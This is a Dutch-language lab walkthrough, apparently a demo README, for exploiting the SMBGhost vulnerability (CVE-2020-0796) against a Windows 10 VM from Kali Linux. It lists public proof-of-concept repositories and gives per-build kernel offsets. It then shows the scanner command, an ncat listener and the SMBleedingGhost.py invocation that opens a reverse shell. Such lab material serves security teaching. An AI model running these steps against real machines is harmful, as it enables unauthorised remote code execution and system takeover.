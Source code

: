 # handleiding voor demo

## tabel met waarden

| VM            | IP Address   |
| ------------- | ------------ |
| Windows 10    | 192.168.1.17 |
| Kali Linux VM | 192.168.1.20 |

### Inleiding

Voordat wij starten hebben we enkele github repositories nodig :

- https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master
- https://github.com/ButrintKomoni/cve-2020-0796
- https://github.com/jiansiting/CVE-2020-0796-Scanner (deze hebben we niet echt nodig, maar is er toch voor zekerheid)

### stap x

We gaan eerst alles in onze Kali Linux configureren. We zouden eerst willen controleren of onze slachtoffer ( Windows 10 19H1 18362.356 ).

Er zijn verschillende versies van Windows 10 waarop dit mogelijk is en voor elke versie hebben we eerst hun offsets nodig. De offsets zijn specifieke waarden dat gebruikt moeten worden in onze main Python script ('SMBLeedingGhost.py') voor de exploit. De offsets worden dan gebruikt om de main script aan te passen om een successvolle RCE uit te voeren.

calculate_target_offsets.bat is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die hetzelfde versie runt. Hier zijn enkele offset-waarden:

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.365) hebben we deze nodig :

- 'srvnet!SrvNetWskConnDispatch': 0x2D170,
- 'srvnet!imp_IoSizeofWorkItem': 0x32210,
- 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
- 'nt!IoSizeofWorkItem': 0x12C370,
- 'nt!MiGetPteAddress': 0xBAFA8

Wat we nu moeten doen is onze Kali Linux openen en ifconfig uitvoeren om te zien wat onze IP address precies is. Noteer dit omdat we het straks nodig zullen hebben.
We clonen dan de volgende github repository in onze Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (dit is onze scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (dit is onze RCE exploit)

Je directory zou dan zo moeten uitzien:

```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ ls
CVE-2020-0796-RCE-POC  cve-2020-0796
```

En verder van binnen ...

```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

We navigeren eerst naar cve-2020-0796 om onze scanner te gebruiken. Onze windows heeft als ip : 192.168.1.17, dus dat gebruiken wij als parameter voor de scanner en je komt dit uit:

```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```

Gebruik:

- python3 cve-2020-0796-scanner.py {TARGET IP ADDRESS}

We zien dat het vulnerable is en zo kunnen we verder gaan met onze script.

Voor onze RCE uit te voeren moeten we dus eerst enkele dingen in orde hebben / uitvoeren.

1. juiste target offsets die passen voor slachtoffer zijn windows versie
2. we moeten in een terminal (op onze kali linux) `ncat -lvp <port>` runnen, dit zal onze toegang zijn naar onze windows (dit kan zijn ncat -lvp 1234)
3. we voeren `SMBleedingGhost.py` uit als volgt : `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`

`target_ip` is onze windows 10 slachtoffer, 192.168.1.17 dus. `reverse_shell_ip` en `reverse_shell_port` zijn de ip address en poort waarop ncat luistert

in ons geval zou onze code op zoiets lijken dus : `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

Na dit zal het eventjes duren en proberen om in de systeem te geraken, als alles goed gelukt is, zal in je ncat terminal waarop er geluisterd wordt veranderen naar een windows 10 shell waarbij je toegang hebt en willekeurige code kan uitvoeren.

